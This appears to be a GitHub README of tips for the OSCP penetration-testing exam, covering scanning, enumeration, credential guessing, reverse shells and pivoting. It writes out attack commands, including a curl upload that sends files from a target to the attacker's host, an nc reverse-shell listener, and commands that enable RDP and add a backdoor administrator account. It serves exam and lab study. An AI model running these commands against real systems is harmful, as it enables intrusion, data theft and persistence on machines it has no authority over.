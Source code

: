 ## oscp-tips ##
### Tips and Tricks for OSCP and Beyond! ###

1 - Run a quick port scanner like threader3000 or rustscan first. You can save good amount of time by this way, for example threader3000 scans all ports and suggests nmap only for open ports only.

2 - Run nmap -sS for all ports, compare open ports with previous scan.

3 - Run -sU (UDP) for well-known ports.

4 - Run gobuster in dir mode for all http/https ports with common world list. See if anything interesting.

5 - Run gobuster in fuzz mode with common world list.

6 - Run gobuster recursively for anything interesting, like you find out a script directory, try to find out directories within script. You should do this upto 3-4 level.

7 - Run gobuster for file extension using -x, like for php or aspx.

8 - Check UDP scan, see if SNMP is allowed or not. If SNMP port is open use snmpwalk with well-known default community strings.

9 - Run snmp with extended MIB, check hacktricks for more details.

10 - Check HTML code, check title of the page, sometimes you will get vulnerable system name from title itself.

11 - Check nmap scan, try to connect to every port using telnet or nc. Send some random keys and see the response.

12 - Check hacktricks (https://book.hacktricks.xyz/) if you don't know or aware about pentesting of a port or service.

13 - Use rpcclient to enum users and other details if RPC ports are open.

14 – Revert machines and perform scan again.

15 – Listen reverse shell on same ports which are open on victim. For example, if port 445 is open on victim, bidirectional traffic might be allowed on same port too. You can use “nc -lvnp 445” to catch reverse shell on Kali in that case, if others are not working. Try 
port 80 and 443 as well.

16 – Always try default credentials wherever applicable. For example, admin/password, administrator/password or admin/admin. Search google for default credentials as well.

17 – Always try username and password as machine name as credential. For example, if machine name is “berlin”, try to login FTP (or any other service) with berlin/berlin. Try username without password.

18 – If machine is running a portal with employee name (or email), they can be potential usernames. Make a list and use it for spraying.

19 – Use “updog” to transfer data between target and Kali. You can upload data from target to Kali using below command.

curl.exe -v -XPOST -F "file=@./SharpHound.ps1;filename=SharpHound.ps1" -F "path=." http://192.168.45.229:9090/upload

Please note that for above command file “SharpHound.ps1” should be saved in same directory from where you are running command. You can use impacket-smbserver as well.

20 – If using msfvenom reverse shell, use msfconsole multi handler to catch it. 

21 - Compile C/C++ exploit with "-static" flag, it will allow to include all required libraries as few might be missing on target. You can avoid “GLIBC not found” error by compiling with “-static”.

22 – If you can get root on a Windows machine (standalone or form AD set), install nmap on that and scan remaining machines from there. Scan will be very fast, you will surely save time.

23 – If you are not able to copy files directly to target machine copy it to another target and copy from there. For example, if you have root access on MS01 and low-level access on MS02. It is possible that you might not be allowed to copy files (like winPEAS) 
directly from Kali to MS02. Create a share folder on MS01, copy files to that folder. Now you can copy files from MS01 to MS02.

24 – Use ligolo-ng for pivoting between machines. You can use script from https://github.com/isr4r/misc-scripts/blob/master/ligolo.sh to configure ligolo easily.

25 – Use chisel for local port forwarding. For example, a service is running on target which is only locally allowed (or from 127.0.0.1). You should use chisel in this situation to open access for this service from Kali.

26 – Always check for ports open or allowed locally (for 127.0.0.1). You can connect to these ports on same target machine using “telnet localhost <port number>”. It will give you an idea if something interesting is running.

27 – For AD Set, after getting system level access, which might be over CLI, create a new account as local admin, enable RDP, login and do further enum like running mimikatz. You can use below commands to create user and enable RDP.

For RDP (PowerShell commands)
•	Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
•	Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

For Creating User
•	net user user1 Pass123 /add 
•	net localgroup Administrators user1 /add

28 – Try reverse shell from https://www.revshells.com/, keep trying as one of them will work in lab and in exam too.

29 – Try smbclient, FTP, rpcclient as null user or anonymous user or guest user as well. For example,

•	smbclient -U “” -L 192.168.120.20  

30 – If machine has an open source project check its github or code repo to understand directory structure.


